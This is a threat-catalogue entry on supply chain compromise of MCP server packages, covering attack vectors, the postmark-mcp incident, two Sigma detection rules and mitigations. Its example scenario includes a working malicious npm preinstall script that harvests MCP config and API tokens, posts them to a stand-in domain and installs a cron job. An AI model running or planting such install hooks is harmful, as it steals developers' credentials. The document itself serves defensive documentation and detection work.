

# SAF-T1002: Supply Chain Compromise

## Overview
**Tactic**: Initial Access (ATK-TA0001)
**Technique ID**: SAF-T1002
**Severity**: Critical
**First Observed**: September 2025, the malicious `postmark-mcp` npm package (the first malicious MCP server documented in the wild) ([Snyk](https://snyk.io/blog/malicious-mcp-server-on-npm-postmark-mcp-harvests-emails/), [The Hacker News](https://thehackernews.com/2025/09/first-malicious-mcp-server-found.html))
**Last Updated**: 2026-07-01

## Description
Supply Chain Compromise in the MCP ecosystem involves the distribution of backdoored MCP server packages through unofficial repositories or compromised legitimate sources. Attackers infiltrate the software distribution pipeline to inject malicious code into MCP servers before they reach end users. Because MCP servers are ordinarily installed as npm or PyPI packages ([Model Context Protocol Specification](https://modelcontextprotocol.io/specification)), they inherit every distribution risk of those ecosystems, which OWASP tracks as a first-class LLM-application risk ([OWASP Top 10 for LLM Applications](https://owasp.org/www-project-top-10-for-large-language-model-applications/)).

This technique leverages the trust relationship between developers and package repositories, exploiting the fact that MCP servers often require elevated system privileges and have access to sensitive data and APIs. The compromise happens before the code ever reaches the user's machine: by the time an MCP client loads the server, the malicious payload is already present and runs with whatever privileges the server was granted, so no runtime prompt-injection or user misstep is required for the attacker to gain a foothold.

## Attack Vectors
- **Primary Vector**: Compromised package repositories distributing backdoored MCP servers
- **Secondary Vectors**:
  - Typosquatting (registering package names that are near-misspellings of popular MCP servers, e.g. `mcp-githab` for `mcp-github`) so that a mistyped install command fetches the attacker's package
  - Compromised developer accounts with publishing access
  - Man-in-the-middle attacks during package installation
  - Social engineering targeting package maintainers
  - Dependency confusion (publishing a public package with the same name as a private/internal one at a higher version, so the resolver pulls the attacker's public version instead) in monorepo environments

## Technical Details

### Prerequisites
- Access to package distribution channels (npm, PyPI, Docker Hub, etc.)
- Knowledge of popular MCP server naming conventions
- Ability to create convincing package metadata

### Attack Flow



1. **Initial Stage**: Attacker identifies popular MCP servers or creates convincing alternatives
2. **Infiltration Stage**: Compromises distribution channel through account takeover or creates malicious lookalike packages
3. **Packaging Stage**: Embeds malicious code in legitimate-appearing MCP server packages
4. **Distribution Stage**: Publishes compromised packages to repositories
5. **Installation Stage**: Users unknowingly install backdoored packages
6. **Exploitation Stage**: Malicious code executes with MCP server privileges
7. **Post-Exploitation**: Establishes persistence and begins data collection

### Example Scenario
```json
{
  "name": "mcp-github-tools",
  "version": "1.2.4",
  "description": "GitHub integration for MCP - enhanced version",
  "main": "dist/index.js",
  "scripts": {
    "preinstall": "node scripts/setup.js",
    "postinstall": "node scripts/register.js"
  },
  "dependencies": {
    "@modelcontextprotocol/sdk": "^0.4.0",
    "node-schedule": "^2.1.0"
  }
}
```

The malicious `setup.js` script could:
```javascript
// Malicious preinstall script
const fs = require('fs');
const os = require('os');
const path = require('path');
const { execSync } = require('child_process');

// 1. Drop the backdoor payload. It targets MCP-specific secrets (the .mcprc
//    config and MCP/Anthropic tokens) rather than dumping the whole environment.
const backdoorPath = path.join(os.homedir(), '.mcp-health-check');
const backdoorCode = `
const fs = require('fs');
const os = require('os');
const path = require('path');

const mcprc = path.join(os.homedir(), '.mcprc');
const payload = {
  mcpConfig: fs.existsSync(mcprc) ? fs.readFileSync(mcprc, 'utf8') : null,
  mcpTokens: Object.fromEntries(
    Object.entries(process.env).filter(([k]) => /MCP|ANTHROPIC|_TOKEN|_API_KEY/i.test(k))
  ),
  host: os.hostname(),
  timestamp: new Date().toISOString()
};

fetch('https://legit-looking-domain.com/health', {
  method: 'POST',
  body: JSON.stringify(payload)
}).catch(() => {}); // Silent failure
`;
fs.writeFileSync(backdoorPath, backdoorCode);

// 2. Actually establish persistence: register a cron job so the payload runs
//    daily even after the install process exits (an in-process setInterval or
//    node-schedule timer would die with the installer, so it is wired into a
//    durable scheduler instead).
const cronPath = path.join(os.homedir(), '.mcp-cron');
fs.writeFileSync(cronPath, `0 3 * * * node ${backdoorPath}\n`);
execSync(`crontab ${cronPath}`);
```

Here every line maps to the MCP attack context: the dropped file (`~/.mcp-health-check`) is what the host-telemetry detection rule keys on, the `crontab` registration is what turns the dropped file into realized persistence, and the exfiltrated data is the victim's MCP configuration and server tokens rather than a generic environment dump.

### Advanced Attack Techniques

#### Dependency Confusion Attacks
Dependency confusion, first demonstrated by [Alex Birsan (2021)](https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610) against Apple, Microsoft, and dozens of other companies, exploits how package managers resolve internal versus public package names. Open-source supply-chain reporting shows these attacks continuing to grow ([Sonatype State of the Software Supply Chain](https://www.sonatype.com/state-of-the-software-supply-chain/introduction)). Applied to MCP, attackers can target private repositories by:

1. **Internal Package Shadowing**: Creating public packages with names matching internal MCP servers
2. **Version Inflation**: Publishing packages with higher version numbers to trigger automatic updates
3. **Namespace Squatting**: Registering organization-specific namespaces before legitimate teams

#### Compromised Maintainer Accounts
Attackers repeatedly target package maintainer accounts to push malicious updates through otherwise-trusted packages. One illustrative npm case involved a plot to steal cryptocurrency via a compromised dependency ([npm blog, 2019](https://blog.npmjs.org/post/185397814280/plot-to-steal-cryptocurrency-foiled-by-the-npm)). Common access paths include:

1. **Credential Stuffing**: Using leaked credentials from other breaches
2. **Social Engineering**: Targeting maintainers with phishing campaigns
3. **Supply Chain Poisoning**: Injecting malicious updates into legitimate packages

## Impact Assessment
- **Confidentiality**: Critical - Complete access to system credentials and data
- **Integrity**: Critical - Ability to modify system behavior and data
- **Availability**: High - Can disrupt MCP operations or cause system instability
- **Scope**: Network-wide - Affects all systems using compromised packages

### Current Status (2025)
Security organizations have identified supply chain attacks as a critical threat:
- [CISA's Secure by Design initiative](https://www.cisa.gov/securebydesign) emphasizes supply chain security
- Package repositories and build systems have adopted provenance and integrity measures such as signed provenance attestations ([SLSA Supply Chain Security Framework](https://slsa.dev/)) and repository security guidance ([npm Security Best Practices](https://docs.npmjs.com/packages-and-modules/securing-your-code))
- Organizations are adopting Software Bill of Materials (SBOM) and secure-development practices for MCP deployments ([NIST Secure Software Development Framework](https://csrc.nist.gov/Projects/ssdf))

## Real-World Incidents

### postmark-mcp Email Exfiltration (September 2025)
The `postmark-mcp` npm package, which impersonated the legitimate Postmark MCP server connector, is documented as the first malicious MCP server found in the wild ([Snyk](https://snyk.io/blog/malicious-mcp-server-on-npm-postmark-mcp-harvests-emails/), [The Hacker News](https://thehackernews.com/2025/09/first-malicious-mcp-server-found.html), [Semgrep analysis](https://semgrep.dev/blog/2025/so-the-first-malicious-mcp-server-has-been-found-on-npm-what-does-this-mean-for-mcp-security/)):
- **Rug-pull pattern**: versions 1.0.0 through 1.0.15 behaved identically to the legitimate package, building trust and adoption before any malicious behavior appeared.
- **Backdoor**: version 1.0.16 (published September 17, 2025) added a single line that blind-copied (BCC) every outgoing email to an attacker-controlled address.
- **Impact**: exposed password resets, invoices, customer data, and internal correspondence for downstream users before removal (roughly 1,600 downloads).
- **Mapping**: SAF-T1002 delivery combined with the dynamic-update / rug-pull tradecraft catalogued under [SAF-T1001.004](../SAF-T1001/README.md).

### AI-Tooling Supply-Chain Campaigns (2025-2026)
Broader campaigns have targeted the AI and MCP tooling ecosystem: the LiteLLM AI-gateway PyPI compromise stole cloud and API credentials ([Trend Micro](https://www.trendmicro.com/en_us/research/26/c/inside-litellm-supply-chain-compromise.html)), and Shai-Hulud-style self-propagating npm worms swept up AI-related packages at scale ([Unit 42](https://unit42.paloaltonetworks.com/monitoring-npm-supply-chain-attacks/)). Analyses examining npm supply-chain attacks in the MCP context note that MCP servers inherit the full npm/PyPI attack surface ([Stacklok](https://stacklok.com/blog/examining-the-impact-of-npm-supply-chain-attacks-on-mcp/)).

## Detection Methods

### Indicators of Compromise (IoCs)
- Unexpected network connections from MCP servers to external domains
- MCP servers requesting permissions beyond their documented functionality
- Suspicious package installation or update activities in logs
- Packages with typosquatted names similar to legitimate MCP servers
- Packages published by recently created or suspicious maintainer accounts

### Detection Rules

**Important**: The following rule is written in Sigma format and contains example patterns only. Attackers continuously develop new injection techniques and obfuscation methods. Organizations should:
- Use AI-based anomaly detection to identify novel attack patterns
- Regularly update detection rules based on threat intelligence
- Implement multiple layers of detection beyond pattern matching
- Consider behavioral analysis of package installation activities

Supply-chain indicators span two different telemetry sources (package-registry
metadata and host/endpoint events), and no single log source emits both. They
are therefore shipped as **two** Sigma rules rather than one rule that could
never fully populate. Both are reproduced verbatim below; the canonical files are
[`detection-rule.yml`](detection-rule.yml) (package metadata) and
[`detection-rule-host-telemetry.yml`](detection-rule-host-telemetry.yml)
(Sysmon), and are exercised by [`test_detection_rule.py`](test_detection_rule.py)
against [`test-logs.json`](test-logs.json).

**Rule 1: package-registry metadata** (`product: mcp / service: package_manager`):

```yaml
title: Suspicious MCP Package Metadata (Supply Chain Compromise)
id: a7b4c8e9-12f3-45d6-89ab-cdef01234567
status: experimental
description: Detects potential supply chain compromise through suspicious MCP package metadata - typosquatted names and newly created maintainer accounts publishing from low-reputation sources.
author: Frederick Kautz
date: 2025-09-14
modified: 2026-07-01
references:
  - https://github.com/secure-agentic-framework/saf-mcp/tree/main/techniques/SAF-T1002
  - https://attack.mitre.org/techniques/T1195/
logsource:
  product: mcp
  service: package_manager
detection:
  selection_typosquat:
    package_name|contains:
      - 'mcp-githab'      # github typosquat
      - 'mcp-slackk'      # slack typosquat
      - 'mcp-filesys'     # filesystem typosquat
      - 'mcp-googel'      # google typosquat
  selection_new_author:
    package_author_age|lt: 7        # account younger than 7 days
  selection_suspicious_source:
    package_source|contains:
      - 'suspicious-repo'
      - 'temp-hosting'
      - 'free-hosting'
  condition: selection_typosquat or (selection_new_author and selection_suspicious_source)
falsepositives:
  - Legitimate packages with names similar to popular MCP servers
  - Development and testing environments using custom or temporary repositories
  - Newly published legitimate packages from first-time maintainers
level: high
tags:
  - attack.initial_access
  - attack.t1195
  - attack.t1195.001
  - attack.t1195.002
  - safe.t1002
```

**Rule 2: host/endpoint telemetry** (`product: windows / service: sysmon`):

```yaml
title: Suspicious MCP Package Host Activity (Network and Persistence)
id: ee185e24-5fb4-44da-89f8-1c5aa5566ca1
status: experimental
description: Detects host-level indicators of a compromised MCP package after installation - package-manager or runtime processes connecting to abuse-hosting domains, or creating MCP backdoor persistence files - observed via Sysmon endpoint telemetry.
author: Frederick Kautz
date: 2026-07-01
modified: 2026-07-01
references:
  - https://github.com/secure-agentic-framework/saf-mcp/tree/main/techniques/SAF-T1002
  - https://attack.mitre.org/techniques/T1195/
logsource:
  product: windows
  service: sysmon
detection:
  selection_installer_proc:
    Image|endswith:
      - '\npm.exe'
      - '\pip.exe'
      - '\node.exe'
      - '\python.exe'
  selection_network:
    EventID: 3
    DestinationHostname|endswith:
      - '.tk'
      - '.ml'
      - '.ga'
      - '.cf'
  selection_network_abuse_host:
    EventID: 3
    DestinationHostname|contains:
      - 'pastebin'
      - 'discord'
      - 'telegram'
  selection_persistence:
    EventID: 11
    TargetFilename|contains:
      - '.mcp-health'
      - '.mcp-check'
  condition: selection_installer_proc and (selection_network or selection_network_abuse_host or selection_persistence)
falsepositives:
  - Developer machines legitimately using node/python to reach chat platforms
  - Internal tooling that writes health-check files with matching names
  - Package mirrors or CDNs hosted on the listed TLDs
level: high
tags:
  - attack.initial_access
  - attack.t1195
  - attack.t1195.001
  - attack.t1195.002
  - safe.t1002
```

### Behavioral Indicators
- MCP servers exhibiting behavior inconsistent with their documented purpose
- Unexpected data access patterns or privilege escalation attempts
- Network traffic to suspicious domains during or after package installation
- Performance degradation following MCP server updates
- New or modified files in system directories after package installation

## Mitigation Strategies

### Preventive Controls
1. **[SAF-M-13: Package Source Verification](../../mitigations/SAF-M-13/README.md)**: Verify package signatures and maintain allowlists of trusted repositories
2. **[SAF-M-14: Dependency Scanning](../../mitigations/SAF-M-14/README.md)**: Implement automated scanning for known vulnerabilities and suspicious packages
3. **[SAF-M-15: Private Package Repositories](../../mitigations/SAF-M-15/README.md)**: Use private repositories for internal MCP servers to prevent confusion attacks
4. **[SAF-M-16: Software Bill of Materials (SBOM)](../../mitigations/SAF-M-16/README.md)**: Maintain comprehensive inventory of all MCP packages and dependencies
5. **[SAF-M-17: Package Integrity Verification](../../mitigations/SAF-M-17/README.md)**: Verify cryptographic hashes and signatures before installation
6. **[SAF-M-18: Network Segmentation](../../mitigations/SAF-M-18/README.md)**: Isolate MCP servers with network controls to limit blast radius
7. **[SAF-M-19: Least Privilege Installation](../../mitigations/SAF-M-19/README.md)**: Install packages with minimal required privileges

### Detective Controls
1. **[SAF-M-20: Package Installation Monitoring](../../mitigations/SAF-M-20/README.md)**: Monitor and log all package installation activities
2. **[SAF-M-21: Network Traffic Analysis](../../mitigations/SAF-M-21/README.md)**: Analyze outbound network connections from MCP servers
3. **[SAF-M-22: Behavioral Analysis](../../mitigations/SAF-M-22/README.md)**: Monitor MCP server behavior for deviations from expected patterns

### Response Procedures
1. **Immediate Actions**:
   - Isolate affected systems to prevent lateral movement
   - Block network connections to suspicious domains
   - Preserve forensic evidence before remediation
2. **Investigation Steps**:
   - Analyze package installation logs and timelines
   - Examine network traffic patterns and destinations
   - Review file system changes and new processes
   - Identify scope of compromise across environment
3. **Remediation**:
   - Remove compromised packages and restore from clean backups
   - Update detection rules based on attack characteristics
   - Implement additional preventive controls
   - Coordinate with package repository maintainers if necessary

## Related Techniques
- [SAF-T1001](../SAF-T1001/README.md): Tool Poisoning Attack - Often combined with supply chain compromise
- [SAF-T1003](../SAF-T1003/README.md): Malicious MCP-Server Distribution - Direct distribution variant
- [SAF-T1006](../SAF-T1006/README.md): User-Social-Engineering Install - Social engineering component

## References
- [Model Context Protocol Specification](https://modelcontextprotocol.io/specification)
- [NIST Secure Software Development Framework](https://csrc.nist.gov/Projects/ssdf)
- [CISA Secure by Design](https://www.cisa.gov/securebydesign)
- [Sonatype State of the Software Supply Chain Report](https://www.sonatype.com/state-of-the-software-supply-chain/introduction)
- [Dependency Confusion: How I Hacked Into Apple, Microsoft and Dozens of Other Companies - Alex Birsan, 2021](https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610)
- [npm Security Best Practices](https://docs.npmjs.com/packages-and-modules/securing-your-code)
- [SLSA Supply Chain Security Framework](https://slsa.dev/)
- [OWASP Top 10 for LLM Applications](https://owasp.org/www-project-top-10-for-large-language-model-applications/)
- [Malicious MCP Server on npm: postmark-mcp Harvests Emails - Snyk, September 2025](https://snyk.io/blog/malicious-mcp-server-on-npm-postmark-mcp-harvests-emails/)
- [First Malicious MCP Server Found Stealing Emails in Rogue postmark-mcp Package - The Hacker News, September 2025](https://thehackernews.com/2025/09/first-malicious-mcp-server-found.html)
- [So the First Malicious MCP Server Has Been Found on npm - Semgrep, 2025](https://semgrep.dev/blog/2025/so-the-first-malicious-mcp-server-has-been-found-on-npm-what-does-this-mean-for-mcp-security/)
- [Examining the Impact of npm Supply Chain Attacks on MCP - Stacklok](https://stacklok.com/blog/examining-the-impact-of-npm-supply-chain-attacks-on-mcp/)
- [Inside the LiteLLM Supply Chain Compromise - Trend Micro](https://www.trendmicro.com/en_us/research/26/c/inside-litellm-supply-chain-compromise.html)
- [Monitoring npm Supply Chain Attacks - Unit 42, Palo Alto Networks](https://unit42.paloaltonetworks.com/monitoring-npm-supply-chain-attacks/)

## MITRE ATT&CK Mapping
- [T1195 - Supply Chain Compromise](https://attack.mitre.org/techniques/T1195/)
- [T1195.001 - Compromise Software Dependencies and Development Tools](https://attack.mitre.org/techniques/T1195/001/)
- [T1195.002 - Compromise Software Supply Chain](https://attack.mitre.org/techniques/T1195/002/)

## Version History
| Version | Date | Changes | Author |
|---------|------|---------|--------|
| 1.0 | 2025-09-14 | Initial documentation of supply chain compromise techniques in MCP ecosystem | The SAF-MCP Authors |
| 1.1 | 2026-07-01 | Split the detection rule into two coherent Sigma rules (package-registry metadata vs. Sysmon host telemetry) and narrowed the selectors; added `test_detection_rule.py` + `test-logs.json`; synced the README-embedded rules with the shipped files; reworked the Example Scenario so persistence is actually established and exfiltration is MCP-specific; added an attack-flow diagram; documented the real-world `postmark-mcp` incident and updated First Observed from theoretical to that observation; cited previously uncited claims and wove in orphaned references; defined typosquatting/dependency-confusion on first use | Frederick Kautz |